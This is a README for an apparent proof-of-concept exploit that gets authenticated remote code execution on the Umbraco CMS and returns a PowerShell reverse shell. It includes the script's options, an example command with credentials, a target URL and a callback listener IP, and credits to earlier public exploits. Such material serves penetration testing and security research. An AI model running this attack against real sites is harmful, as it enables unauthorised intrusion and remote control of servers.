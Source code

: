 # Umbraco RCE PowerShell Reverse Shell PoC

## Usage
```
usage: exploit.py [-h] -u USER -p PASS -w URL -i IP

Umbraco authenticated RCE

optional arguments:
  -h, --help                 show this help message and exit
  -u USER, --user USER       Username / Email
  -p PASS, --password PASS   Login password
  -w URL, --website-url URL  Root URL
  -i IP, --ip IP             IP address of callback listener
```
Examples:
```
python exploit.py -u admin@example.org -p password123 -w 'http://remote.website/' -i 10.10.10.1
```

## Requirements
To install dependencies:
```
pip install -r requirements.txt
```

## Reference
This is a touch-up of [noraj's PoC](https://github.com/noraj/Umbraco-RCE/) which is based off [EDB-ID-46153](https://www.exploit-db.com/exploits/46153).  
This version provides a PowerShell reverse shell upon execution.
